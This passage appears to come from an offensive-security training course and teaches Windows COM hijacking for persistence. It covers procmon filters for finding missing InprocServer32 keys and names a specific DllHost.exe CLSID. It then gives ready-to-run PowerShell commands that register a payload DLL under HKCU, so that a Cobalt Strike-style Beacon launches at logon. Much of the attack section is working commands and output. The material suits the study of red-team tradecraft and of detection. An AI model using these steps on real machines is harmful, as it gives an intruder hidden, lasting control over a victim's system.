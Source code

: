 The trick with COM hijacking is to find an object that:

* Doesn't break loads of software, or even the entirety of Windows, when hijacked.&#x20;
* Isn't loaded a bazillion times a minute, which would render the system inoperable.

### Finding COM hijacks <a href="#el_1736335406503_417" id="el_1736335406503_417"></a>

[Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) (aka procmon) from Sysinternals is an excellent tool for finding COM hijacking opportunities, as it displays real-time access to the registry.  It can be used to find instances where a process is attempting to load a COM object that it couldn't find.

An adversary will typically do this analysis on their own machine (i.e. in a VM that they've setup to replicate the environment of their target).  They will also test the hijack in this VM to ensure it's stable before using it on the target system.

Add some filters in procmon where:

* The _Operation_ is **RegOpenKey**.
* The _Path_ contains **InprocServer32** or **LocalServer32**.
* The _Result_ is **NAME NOT FOUND**.

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/9a2ba59b36ee0ec8b123afa9f0a86191.png" alt="" width="100%"><figcaption></figcaption></figure>

As indicated by the image above, you will see thousands of these.  The results can be analysed directly in procmon, or exported in a format such as CSV.  Exporting the results is useful for frequency analysis (i.e. when looking for a COM object that's loaded a modest number of times).

A COM object I've used in the past is one loaded by DllHost.exe:  `HKCU\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32`.

We can see that this key does exist in HKLM, but not in HKCU.

```powershell
PS C:\Users\Attacker> Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"

    Hive: HKEY_LOCAL_MACHINE\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}

Name                           Property
----                           --------
InprocServer32                 (default)      : C:\Windows\System32\thumbcache.dll
                               ThreadingModel : Apartment

PS C:\Users\Attacker> Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
Get-Item : Cannot find path 'HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32' because it does not exist.
```

To test the hijack, create the registry key for the given CLSID and then the InprocServer32 value.  For ease, we can point it directly to a DLL payload in the `C:\Payloads` directory.

```powershell
PS C:\Users\Attacker> New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
PS C:\Users\Attacker> New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Payloads\http_x64.dll"
PS C:\Users\Attacker> New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

Logging out and back again will trigger DllHost.exe to load the COM object, and you should have a new Beacon.

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/a09e0d554a95bb62ad5a26a0c696784c.png" alt="" width="100%"><figcaption></figcaption></figure>

